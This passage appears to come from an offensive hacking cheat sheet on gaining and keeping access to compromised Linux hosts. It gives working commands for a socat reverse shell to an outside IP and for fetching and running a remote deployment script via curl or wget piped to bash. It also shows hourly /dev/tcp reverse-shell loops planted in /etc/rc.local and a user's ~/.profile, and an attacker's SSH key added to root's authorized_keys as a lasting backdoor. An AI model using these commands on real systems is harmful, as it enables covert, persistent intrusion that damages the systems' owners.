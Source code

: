 ...or install socat and get it done without much fiddling about:

```sh
# on attacker's host (listener)
socat file:`tty`,raw,echo=0 tcp-listen:1524
# on target host (reverse shell)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.13.3.7:1524
```

---
<a id="backdoor"></a>
## 6. Backdoors

Mostly we use gs-netcat's automated deployment script: [https://www.gsocket.io/deploy](https://www.gsocket.io/deploy).
```sh
bash -c "$(curl -fsSLk gsocket.io/x)"
```
or
```sh
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
```

<a id="bdrs-anchor"></a>
**6.i. Background reverse shell**

A reverse shell that keeps trying to connect back to us every 3600 seconds (indefinitely). Often used until a real backdoor can be deployed and guarantees easy re-entry to a system in case our connection gets disconnected. 

```sh
while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done &>/dev/null &
```

or add to */etc/rc.local*:
```sh
nohup bash -c 'while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done' &>/dev/null &
```

or the user's *~/.profile* (also stops multiple instances from being started):
```sh
fuser /dev/shm/.busy &>/dev/null
if [ $? -eq 1 ]; then
        nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 ; sleep 3600; done' &>/dev/null &
fi
```


<a id="bdak-anchor"></a>
**6.ii. authorized_keys**

Add your ssh public key to */root/.ssh/authorized_keys*. It's the most reliable backdoor ever :>

* It survives reboots.
* It even survives re-installs. Admins have been known to make a backup of authorized_keys and then put it straight back onto the newly installed system.
* We have even seen our key being copied to other companies!
